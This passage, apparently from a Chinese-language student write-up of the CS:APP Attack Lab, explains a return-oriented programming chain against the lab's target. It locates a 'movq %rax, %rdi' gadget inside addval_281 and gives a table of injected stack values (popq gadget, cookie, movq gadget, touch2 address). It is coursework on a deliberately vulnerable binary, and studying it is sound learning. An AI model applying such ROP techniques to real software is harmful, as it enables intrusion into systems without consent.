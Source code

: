 接下来，我们又了解到`movq 	%rax, %rdi`指令字节为`48 89 c7`，所以我们找到如下函数：

~~~assembly
0000555555555cb4 <addval_281>:
    5cb4:	8d 87 14 48 89 c7    	lea    -0x3876b7ec(%rdi),%eax
    5cba:	c3                   	retq 
~~~

同上，该条指令的实际地址为`0x555555555cb7`，继续将该地址放置在栈空间中。

最后，在栈空间顶放上`touch2`的首地址`0x555555555ae0`。

综上所述，我们得到了这样的十六进制字符串：

![](/home/fang/Pictures/Screenshot from 2019-11-29 19-53-30.png)

我们使用命令行进行验证，结果如下：

![](/home/fang/Pictures/Screenshot from 2019-11-29 15-00-18.png)

同样的，注入的栈空间：

|                                                   							   |
| ---------------------------------------------------------------------------------------------- |
| `00 00 55 55 55 55 5a e0`<——`touch2`              	        |
| `00 00 55 55 55 55 5c b7`<——`movq 	%rax, %rdi` |
| `00 00 00 00 76 92 7b bf`<——`cookie`              	        |
| `00 00 55 55 55 55 5c a5`<——`popq 	%rax`               |
| `00 00 00 00 00 00 00 00`                         			       |
| `00 00 00 00 00 00 00 00`                         			       |
| `00 00 00 00 00 00 00 00`                         			       |
| `00 00 00 00 00 00 00 00`                         			       |
| `00 00 00 00 00 00 00 00`<——`%rsp`               			|
